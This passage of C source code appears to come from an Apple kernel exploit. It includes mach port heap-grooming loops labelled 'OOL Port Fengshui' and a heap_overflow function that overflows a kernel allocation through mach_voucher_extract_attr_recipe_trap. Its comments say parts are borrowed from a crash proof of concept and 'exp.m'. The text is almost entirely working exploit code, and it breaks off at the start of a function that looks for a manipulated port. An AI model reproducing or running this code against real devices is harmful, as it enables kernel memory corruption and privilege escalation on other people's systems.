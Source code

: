 		kern_return_t recv_result = mach_msg(&recv_msg.msg_head, MACH_RCV_MSG | MACH_MSG_OPTION_NONE, 0, sizeof(struct ool_recv_msg), ool_ports[current_port_num], MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		if(recv_result != KERN_SUCCESS){
			printf("[-] Error in OOL Fengshui recv\nError : %s\n", mach_error_string(recv_result));
			exit(1);
		}
	}

	/* RE-SEND MSG */
	for(current_port_num = USE_PORT_START; current_port_num < USE_PORT_HALF; current_port_num += 4){
		send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
		kern_return_t send_result = mach_msg(&send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		if(send_result != KERN_SUCCESS){
			printf("[-] Error in OOL Fengshui re-send\nError : %s\n", mach_error_string(send_result));
			exit(1);
		}
	}
	
	printf("[+] OOL Port Fengshui Success\n");
	return ool_ports;
}

/* ---- FROM Crash PoC ---- */
uint64_t map(uint64_t size) {
	uint64_t _addr = 0x00;
	kern_return_t err = mach_vm_allocate(mach_task_self(), &_addr, size, VM_FLAGS_ANYWHERE);
	if (err != KERN_SUCCESS) {
		printf("failed to allocate fixed mapping: %s\n", mach_error_string(err));
		exit(EXIT_FAILURE);
	}
	return _addr;
}
/* ----------------- */

/* ---- FROM exp.m ---- */
uint64_t roundup(uint64_t val, uint64_t pagesize) {
	val += pagesize - 1;
	val &= ~(pagesize - 1);
	return val;
}
void heap_overflow(uint64_t kalloc_size, uint64_t overflow_length, uint8_t* overflow_data, mach_port_t* voucher_port) {
	
	int pagesize = getpagesize();

	void* recipe_size = (void*)map(pagesize);
	*(uint64_t*)recipe_size = kalloc_size;

	uint64_t actual_copy_size = kalloc_size + overflow_length;
	uint64_t alloc_size = roundup(actual_copy_size, pagesize) + pagesize;
    uint64_t base = map(alloc_size); // unmap page
    
    uint64_t end = base + roundup(actual_copy_size, pagesize);
    mach_vm_deallocate(mach_task_self(), end, pagesize); // for copyin() stop
    
    uint64_t start = end - actual_copy_size;
    
    uint8_t* recipe = (uint8_t*)start;
    
    memset(recipe, 0x41, kalloc_size); // set kalloc size
    memcpy(recipe + kalloc_size, overflow_data, overflow_length); // set overflow bytes
    
    kern_return_t err = mach_voucher_extract_attr_recipe_trap(voucher_port, 1, recipe, recipe_size); // Trigger

}
/* -------------------- */

mach_port_t* find_manipulation_port(mach_port_t* port_list){